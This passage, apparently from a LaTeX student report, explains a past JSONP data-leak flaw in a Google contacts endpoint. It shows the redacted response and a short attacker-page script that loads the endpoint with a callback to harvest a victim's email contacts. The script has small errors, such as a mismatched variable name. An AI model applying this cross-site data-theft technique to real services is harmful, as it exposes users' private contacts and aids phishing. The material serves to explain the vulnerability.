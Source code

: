 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
  What made this possible was the server's verification scheme: it was only verifying that the caller was logged in 
  to a Google account. The ever active cookie declared it without hesitation which led to a successful attack.
  To make it even worse, the server didn't check if the call came from the same webpage[3]. A simple popup window could 
  have triggered this attack.
  
  \begin{figure}[h!t]
  \begin{verbatim} % JS = JavaScript
  google ({
  	Success: true,
  	Errors: [],
  	Body: {
      AuthToken: {
      	Value: '********'
    },
    Contacts: [
      {
        Id: '***',
        Email: 'users at dwr.dev.java.net',
        Affinity: ***,
        Groups: [
          {
            id: '^Freq',
            value: 'users at dwr.dev.java.net'
          }
        ],
        Addressess: [],
        Phoness: [],
        Imss: []
      },
    // Lots more contacts here
    ]
  	}
  })
  \end{verbatim}
  \caption{The JavaScript callback function that returned a data structure (object) with all email contacts.[2]}
  \label{figure:signed_token_server}
  \end{figure}
  
  As you can see in Picture 6, several fields were accessible. The affinity field told the attacker how important 
  the contact was to that user, making it a more vulnerable target for phishing attempts[2]. 
  
  \begin{figure}[h!t]
  \begin{verbatim} % JS = JavaScript
  <script type="text/javascript">
	function google(data){
      var emails, i;
      for (i = 0; i < data.Body.Contacts.length; i++) {
        mails += "<li>" + data.Body.Contacts[i].Email + "";
      }
      document.write("<ol>" + emails + "</ol>");
	}
  </script>
 
  <script type="text/javascript" src="http://docs.google.com/data/contacts?out=js&show=ALL&psort=Affinity&callback=google&max=99999">
  </script>
  \end{verbatim}
  \caption{A simple JavaScript that calls the function in Picture 6 and writes the received data to a file.}
  \label{figure:signed_token_server}
  \end{figure}
  
\end{document}
